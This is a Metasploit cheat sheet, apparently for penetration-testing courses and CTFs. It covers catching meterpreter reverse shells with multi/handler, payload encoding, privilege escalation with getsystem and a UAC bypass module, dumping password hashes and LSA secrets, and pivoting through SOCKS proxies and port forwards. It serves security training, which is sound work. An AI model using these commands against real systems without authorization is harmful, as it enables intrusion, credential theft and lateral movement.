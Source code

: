 # Metasploit
```default
  MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM  
  MMMMMMMMMMM                MMMMMMMMMM  
  MMMN$                           vMMMM  
  MMMNl  MMMMM             MMMMM  JMMMM  
  MMMNl  MMMMMMMN       NMMMMMMM  JMMMM  
  MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM  
  MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM  
  MMMMR  ?MMNM             MMMMM .dMMMM  
  MMMMNm `?MMM             MMMM` dMMMMM  
  MMMMMMN  ?MM             MM?  NMMMMMN  
  MMMMMMMMNe                 JMMMMMNMMM  
  MMMMMMMMMMNm,            eMMMMMNMMNMM  
  MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM  
  MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM        
```

Start as sudo/root if you want to bind to low ports.
```bash
sudo msfdb init && sudo msfconsole
```

Basic commands:
```bash
msf> search <module>
msf> use <module>
msf> help
```

In a module, show full module info:
```bash
msf> info
```

In a module only show settable options:
```bash
msf> show options
```

Run module:
```bash
msf> run
```

Run module as background job:
```bash
msf> run -j
msf> jobs
```


## multi/handler

Used to catch reverse shells of all kinds.

```bash
msf> use multi/handler
```

Set it to the payload you used in your msfvenom command.

```bash
msf> set payload windows/meterpreter/reverse_tcp
```

You can set LHOST to your local IP address or just use an interface name.

```bash
msf> set LHOST 192.168.0.2
msf> set LHOST tun0
```

Set the listening port:
```bash
msf> set LPORT 53
```

If you used a binary exploit payload, then also set the correct EXITFUNC.
```bash
msf> set EXITFUNC thread
msf> set EXITFUNC process
msf> set EXITFUNC seh
```

Start listening:
```bash
msf> run
```

You can also set a stage encoder for staged payloads:
```bash
msf> set EnableStageEncoding true
msf> set StageEncoder x86/shikata_ga_nai
```

Migrate to another process automatically after connecting:
```bash
msf> set AutoRunScript post/windows/manage/migrate
```

## Meterpreter

```bash
meterpreter> getuid
meterpreter> sysinfo
meterpreter> shell
```

Migrate to another process
```bash
meterpreter> run post/windows/manage/migrate
```

Background meterpreter sessions
```bash
meterpreter> background
```

list active sessions
```bash
msf> sessions
```

Rejoin backgrounded session
```bash
msf> sessions -i 2
```

Attempt to elevate to SYSTEM user:
```bash
meterpreter> getsystem
```

Local exploit suggester
```bash
meterpreter> run post/multi/recon/local_exploit_suggester
```

Bypass UAC
```bash
msf> use exploit/windows/local/bypassuac_injection_winsxs
```

Enum applications
```bash
meterpreter> run post/windows/gather/enum_applications
```

Logged in users
```bash
meterpreter> run post/windows/gather/enum_logged_on_users
```

Dump hashes
```bash
meterpreter> run post/windows/gather/hashdump
meterpreter> run post/windows/gather/credentials/credential_collector
```

Dump lsa 
```bash
meterpreter> run post/windows/gather/lsa_secrets
```

ARP_scanner (beware, probably banned in PWK and CTFs)
```bash
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
```

Check if you are on a virtual machine (honeypot check, but do not rely on this)
```bash
meterpreter> run post/windows/gather/checkvm
```

## Pivoting
### SOCKS proxy

Scenario: you have a meterpreter shell (let's say #7) on a machine that is double-homed with a network interface leading to another subnet 10.8.8.0/24

First create a route to the new subnet:
```bash
msf> route add <subnet> <netmask> <meterpreter-session-num>
msf> route add 10.8.8.0 255.255.255.0 7
```

Next start the socks proxy module. The socks proxy will be aware of your routes.
```bash
msf> use auxiliary/server/socks4a
msf> set SRVPORT 1080
msf> run -j
```

Add the following entry at the bottom of `/etc/proxychains.conf`
```bash
socks4  127.0.0.1    1080
```

Now you can use:
```bash
proxychains nmap -T4 -F 10.8.8.42
```
...in order to scan a machine in the other subnet. 
You will probably only be able to TCP CONNECT scan through the socks proxy.

You can create a FoxyProxy setting in order to visit websites in the subnet with Firefox. Make sure to set it to SOCKS4 instead of the default HTTP.


### Single port forward

Some actions works better with a singular port forward instead of SOCKS, such as database interaction or FTP.

```bash
meterpreter> portfwd add -l 3389 -p 3389 -r [target host]

# -l [local-listening-port]
# -p [destination-port]

```

